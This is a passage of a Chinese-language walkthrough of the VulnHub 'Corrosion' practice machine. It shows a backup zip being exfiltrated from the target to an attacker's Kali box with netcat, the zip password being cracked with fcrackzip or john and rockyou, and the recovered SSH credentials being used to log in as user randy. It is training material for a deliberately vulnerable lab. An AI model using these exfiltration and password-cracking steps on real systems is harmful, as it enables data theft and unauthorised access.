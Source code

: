![](D:\stu\vulnhub\corrosion靶场\pic-1\17.jpg)





切换到目录发现有一个`user`开头的，很可以，进行下载

![](D:\stu\vulnhub\corrosion靶场\pic-1\18.jpg)



尝试解压，发现需要密码，测试发现靶机有`nc`可用，直接通过`nc`下载

![](D:\stu\vulnhub\corrosion靶场\pic-1\19.jpg)

```shell
在靶机上，通过nc把zip包发送给kali地址的7777端口
nc 192.168.1.16 7777 < user_backup.zip
在kali上开启，通过监听7777端口，并把传递信息保存在user_backup.zip
nc -lv -p 7777 > user_backup.zip
```

使用`fcrackzip`进行破解

```shell
fcarckzip -u -D -p /usr/share/wordlists/rockyou.txt user_backup.zip
-u 暴力破解
-D 字典模式
-p 指定字典
```

![](D:\stu\vulnhub\corrosion靶场\pic-1\20.jpg)



或者使用`zip2john`把zip文件改为`john`可识别的类型

![](D:\stu\vulnhub\corrosion靶场\pic-1\21.jpg)



然后使用`john`进行破解

![](D:\stu\vulnhub\corrosion靶场\pic-1\22.jpg)



知道密码后进行解压，获取ssh密钥以及密码和一个`c`语言编程

![](D:\stu\vulnhub\corrosion靶场\pic-1\23.jpg)



查看`/home`目录下有哪些用户

![](D:\stu\vulnhub\corrosion靶场\pic-1\24.jpg)

尝试使用`ssh`连接`randy`，并用获取到的密码登录

![](D:\stu\vulnhub\corrosion靶场\pic-1\25.jpg)
